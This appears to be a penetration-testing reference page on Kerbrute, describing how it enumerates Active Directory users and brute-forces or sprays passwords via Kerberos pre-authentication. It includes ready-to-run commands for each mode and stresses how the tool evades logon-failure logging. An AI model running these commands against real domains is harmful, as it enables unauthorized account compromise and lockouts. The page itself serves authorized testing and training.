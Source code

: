 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Kerbrute

[Kerbrute](https://github.com/ropnop/kerbrute) is a Go-based tool designed to efficiently brute force and enumerate AD accounts through Kerberos Pre-Authentication, making it faster and potentially stealthier than traditional password guessing methods. Instead of generating standard failed logon events (4625), it validates usernames and credentials by sending a single UDP frame to the DC, allowing account enumeration and authentication attempts with minimal noise. It supports multiple modes, including user enumeration, password spraying, and credential testing, while offering options for threading, logging, and safe execution to prevent account lockouts.

<figure><img src="../../../.gitbook/assets/kerbrute (2).png" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="User Enumeration" %}
{% code overflow="wrap" %}
```bash
kerbrute userenum -d domain.local --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
{% endcode %}
{% endtab %}

{% tab title="Password Spray" %}
Testing known passwords against a list of domain users (lockout-sensitive):

```bash
kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123
```
{% endtab %}

{% tab title="Brute Force" %}
Brute force against a single username (lockout-sensitive):

```bash
kerbrute bruteuser -d lab.ropnop.com passwords.lst thoffman
```

The `bruteforce` option accepts a `username:password` list:

```bash
cat combos.lst | kerbrute -d lab.ropnop.com bruteforce -
```
{% endtab %}
{% endtabs %}
